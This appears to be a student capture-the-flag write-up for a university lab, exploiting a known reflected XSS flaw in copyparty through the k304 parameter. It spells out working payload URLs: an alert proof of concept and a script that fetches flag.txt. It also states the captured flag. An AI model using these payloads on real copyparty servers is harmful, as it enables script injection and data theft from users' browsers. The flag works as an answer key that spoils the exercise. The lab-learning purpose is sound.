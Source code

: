 # CTF Semana #7 (XSS)

## Accessing the Website
We navigated to the provided address [http://ctf-fsi.fe.up.pt:5007](http://ctf-fsi.fe.up.pt:5007), using **Google Chrome** (the exploit does not work on Firefox) and explored the site's functionalities as a regular user.

![websitePhoto](/docs/images/s.png)

---

## Searching for Known Vulnerabilities
1. We searched for information about vulnerabilities related to the service and found out about copyparty. We then used the following search term in Google:  `copyparty cve xss` and found an exploit published on [https://www.exploit-db.com/exploits/51635](https://www.exploit-db.com/exploits/51635), describing a **Reflected XSS** vulnerability.

---

## Testing the Exploit
1. The original exploit triggers an alert with the following URL:

```html
https://localhost:3923/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

2. We adapted the exploit to the challenge's server address:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cimg+src%3Dcopyparty+onerror%3Dalert(1)%3E
```

3. Upon loading this link in the browser, an alert appeared, confirming the site is vulnerable to **Reflected XSS**.

![alert](/docs/images/alert.png)

---

## 4. Modifying the Exploit to Retrieve the Flag
We replaced the alert code with a script to fetch the protected `flag.txt` file and display its content in an alert.

Adapted code:

```html
http://ctf-fsi.fe.up.pt:5007/?k304=y%0D%0A%0D%0A%3Cscript%3Efetch('/flag.txt').then(response%20=%3E%20response.text()).then(data%20=%3E%20alert(data))%3C/script%3E
```

We pasted the link above into the browser and it loaded the page, and the script was executed.
The flag content appeared in an alert.

![flagCaptured](/docs/images/flagCaptured.png)

 The retrieved flag is: 

**flag{youGotMeReallyGood}**


# Tasks

## Why couldn't the flag be accessed directly?
The flag.txt file was stored on the server but protected from direct access. This protection was implemented to restrict external access to sensitive files. The server only allows access to these files through internal mechanisms, making it impossible to view them directly via a simple HTTP request or URL.

## Is this service popular, and could known vulnerabilities help you access the flag?
Yes, this service is popular and has known vulnerabilities. Specifically, a Reflected XSS vulnerability in versions prior to 1.8.6 of Copyparty was exploited. By searching for known exploits related to the service, we were able to find that this vulnerability allowed attackers to execute malicious JavaScript in the context of a victim’s browser, enabling access to sensitive information such as the flag.

## What vulnerability was exploited?
This attack exploited a Reflected XSS vulnerability. The server failed to properly validate or sanitize user input in the URL, allowing an attacker to inject and execute malicious JavaScript code in the context of the victim’s browser. By exploiting this vulnerability, we were able to fetch the contents of the protected flag.txt file and display it in an alert.

